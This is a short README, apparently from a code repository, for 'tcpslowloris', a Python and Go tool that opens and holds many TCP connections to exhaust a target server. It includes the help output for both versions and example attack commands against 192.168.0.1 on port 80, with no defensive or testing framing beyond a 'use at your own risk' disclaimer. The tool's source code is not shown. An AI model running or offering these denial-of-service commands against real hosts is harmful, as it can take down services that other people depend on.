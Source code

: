 # tcpslowloris
TCP slowloris attack

This simple tool will generate N tcp connections and will keep them alive
by sending keepalive signals<br>
It comes in 2 languages python and golang , choose whats best for you <br>
both are multi platform langs . in both cases , just download a simple file and run

## Using the python version :
```
usage: tcpslowloris.py [-h] [-t TOTAL] [-p PULSE] [-d DELAY] [-i interval] [--target TARGET] [--port PORT]

optional arguments:
  -h, --help            show this help message and exit
  -t TOTAL, --total TOTAL
                        Total concurrent TCP sessions
  -p PULSE, --pulse PULSE
                        Number of connections per pulse
  -d DELAY, --delay DELAY
                        Number of seconds betweek pulse
  -i INTERVAL, --interval INTERVAL
                        Keepalive interval , default 57s
  --target TARGET       Target host
  --port PORT           Target port
```
Example use :
>./tcpslowloris.py --target 192.168.0.1 --port 80 -t 100 -p 10 -d 5 
<p>

## Using the golang version :
 
 ```
Usage of ./tcpslowloris:
  -delay int
    	The keepalive delay in seconds (default 57)
  -interval int
    	Interval between pulse (default 2)
  -port int
    	Target port number (default 80)
  -pulse int
    	Number of sessions per pulse (default 10)
  -target string
    	Target address FQDN/IP
  -total int
    	Total TCP sessions (default 10)
  ```
Example command : 
>./tcpslowloris --target 192.168.0.1 --port 80 --pulse 2 --total 100 --delay 2 --interval 2

* Use on you own risk, this tool has no warrenty 



